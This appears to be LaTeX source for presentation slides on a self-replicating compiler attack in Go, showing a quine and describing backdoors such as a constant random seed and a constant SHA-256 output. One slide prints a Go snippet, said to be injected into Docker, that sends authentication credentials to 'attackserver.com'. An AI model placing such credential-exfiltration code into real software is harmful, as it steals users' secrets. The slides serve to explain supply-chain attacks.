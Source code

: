 \documentclass{beamer}
\begin{document}
\begin{frame}{Quine}
	How do we make the compiler self-replicating?

\medskip
	\pause

	Using a \emph{quine}

\end{frame}


\begin{frame}[fragile]{Quine}
A quine in Go:

\begin{figure}
\centering
\tiny
\begin{verbatim}
package main

import "fmt"

func main() {
  s := "package main\n\nimport \"fmt\"\n\nfunc main() {\n\ts := %#v\n\tfmt.Printf(s, s)\n}\n"
  fmt.Printf(s, s)
}
\end{verbatim}
\end{figure}

\normalsize
\end{frame}

\begin{frame}{Attacks}

We implemented the following attacks on the Go standard library:
\begin{itemize}
\item Fixed the \texttt{math/rand} seed to be constant
\item Fixed the \texttt{crypto/sha256} hash function to be constant
\end{itemize}

\end{frame}

\begin{frame}[fragile]{Attacks}
\begin{figure}
\centering
\includegraphics[scale=0.2]{docker}
\end{figure}

We also injected code into Docker, a container platform built in Go, to send authentication keys to a remote server.
\tiny
\begin{verbatim}
// this is a nice JSON structure containing username, password, etc.
var data = fmt.Sprintf("%#v", authConfig) 
resp, err := http.Get("http://attackserver.com?data=" + data)
\end{verbatim}
\normalsize
\end{frame}
\end{document}
